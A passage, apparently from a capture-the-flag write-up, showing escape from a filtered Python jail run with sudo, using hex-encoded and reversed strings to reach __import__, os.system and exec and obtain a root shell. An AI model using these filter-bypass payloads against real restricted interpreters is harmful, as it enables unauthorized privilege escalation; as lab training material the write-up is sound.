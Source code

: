 - `bytes.fromhex()`
```console
>> __builtins__.__dict__[str(bytes.fromhex('5f5f696d706f72745f5f'),'utf-8')](str(bytes.fromhex('6f73'),'utf-8')).__dict__[str(bytes.fromhex('73797374656d'),'utf-8')](str(bytes.fromhex('7368'),'utf-8'))
# id
uid=0(root) gid=0(root) groups=0(root)
```

Lastly, instead of trying to access the `import` function to import the `os` module, we can use the `exec` function with `input()`, which allows us to run any Python code without a filter.

```console
youcef@Breakme:~$ sudo /usr/bin/python3 /root/jail.py
  Welcome to Python jail
  Will you stay locked forever
  Or will you BreakMe
>> __builtins__.__dict__['cexe'[::-1]](input())
__import__("os").system("id")
uid=0(root) gid=0(root) groups=0(root)
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>